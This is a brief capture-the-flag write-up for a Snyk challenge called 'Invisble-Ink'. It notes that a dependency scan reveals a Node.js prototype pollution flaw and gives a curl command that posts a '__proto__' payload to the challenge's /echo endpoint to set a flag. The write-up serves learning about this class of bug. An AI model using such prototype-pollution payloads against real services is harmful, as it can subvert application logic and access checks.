 # Challenge Invisble-Ink from Snyk


## Solution

snyk test


this reveals, that there is a prototype pollution attack in node.js 


$ curl --request POST --header "Content-Type: application/json"  http://invisible-ink.c.ctf-snyk.io/echo -d '{"message":"ping", "__proto__":{"flag":true}}' | jq .
